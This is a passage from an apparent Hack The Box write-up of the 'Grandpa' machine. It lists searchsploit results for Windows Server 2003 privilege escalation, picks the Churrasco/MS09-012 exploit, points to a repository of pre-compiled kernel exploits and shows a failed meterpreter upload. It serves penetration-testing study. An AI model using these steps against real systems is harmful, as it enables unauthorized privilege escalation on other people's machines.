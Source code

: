 ```
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 792 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,323 MB
Page File: In Use:         147 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

`Windows Server 2003 SP2` is extremely outdated and there should be known privilege escalation exploits.

```
$ searchsploit microsoft windows server 2003 | grep local
Microsoft Windows Server 2000 - 'RegEdit.exe' Registry Key Value Buffer Overflow                                                                          | windows/local/22528.c
Microsoft Windows Server 2000 - CreateFile API Named Pipe Privilege Escalation (1)                                                                        | windows/local/22882.c
Microsoft Windows Server 2000 - CreateFile API Named Pipe Privilege Escalation (2)                                                                        | windows/local/22883.c
Microsoft Windows Server 2000 - Help Facility '.CNT' File :Link Buffer Overflow                                                                           | windows/local/22354.c
Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation                                                                               | windows/local/6705.txt
Microsoft Windows Server 2003 SP2 - Local Privilege Escalation (MS14-070)                                                                                 | windows/local/35936.py
Microsoft Windows Server 2003 SP2 - TCP/IP IOCTL Privilege Escalation (MS14-070)                                                                          | windows/local/37755.c
```

I took a look at the `Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation` exploit which pointed me to an exploit known as `Churrasco`.
After doing some research on that, I tried compiling the exploit code on one of my local windows machines. Unfortunately, the exploit code was too outdated for my version of Visual Studio to compile it. After some more research, I stumbled upon pre-compiled windows kernel exploits in the following [GitHub repository](https://github.com/SecWiki/windows-kernel-exploits). I went ahead and downloaded the pre-compiled `pr.exe` [executable](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012).

At this point, I needed to transfer the `pr.exe` exploit to the grandpa machine.

Meterpreter failed to upload the executable:

```
meterpreter > upload /home/kali/htb/boxes/grandpa/privesc/pr.exe
[*] uploading  : /home/kali/htb/boxes/grandpa/privesc/pr.exe -> pr.exe
[-] core_channel_open: Operation failed: Access is denied.
```
